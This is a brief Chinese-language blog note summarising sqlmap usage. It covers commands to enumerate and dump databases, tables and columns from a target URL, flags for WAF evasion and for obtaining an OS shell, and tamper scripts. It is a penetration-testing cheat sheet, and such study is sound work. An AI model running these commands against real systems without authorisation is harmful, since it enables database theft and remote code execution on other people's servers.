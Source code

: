 ```yaml
---
title: SQLmap Note
date: 2024-07-30
categories: [資安]
tags: [note]

description: 基本sqlmap使用方法

published: true #不顯示此文章
---
```



請參考:[飛飛的SQLmap教學](https://feifei.tw/security-tool-sqlmap/ "https://feifei.tw/security-tool-sqlmap/")
## 基本payload

```
#取得資料庫
sqlmap -u "URL" --dbs

#取得資料表
sqlmap -u "URL" -D 資料庫名稱 --tables

#取得欄位
sqlmap -u "URL" -D 資料庫名稱 -T 資料表名稱 --columns

#取得指定欄位的資料
sqlmap -u "URL" -D 資料庫名稱 -T 資料表名稱 -C 欄位1,欄位2 --dump
```

## 常用參數

```
#自動(選擇預設值)
--batch

# 使用隨機選擇的 HTTP User-Agent 標頭值，用於繞過 WAF
--random-agnet

# 指定後端資料庫類型
# 中間有空格要使用雙引號，如："Microsoft Access"
--dbms "mysql"

#強制使用 SSL/HTTPS
--force-ssl

# 跳過防火牆檢測測試
--skip-waf

# 獲取RCE
--os-shell

#清除復現過程記錄
--flush-session 
```

## 內建腳本

SQLMap 內建了一些腳本來進行更高級的操作和測試。這些腳本可以用來加強 SQL 注入攻擊的效果或是進行更多細緻的操作。
```sh
# 使用 tamper script 來繞過 WAF 
--tamper="tamper_script_name"  
# 列出所有內建腳本 
sqlmap --list-tampers`
```

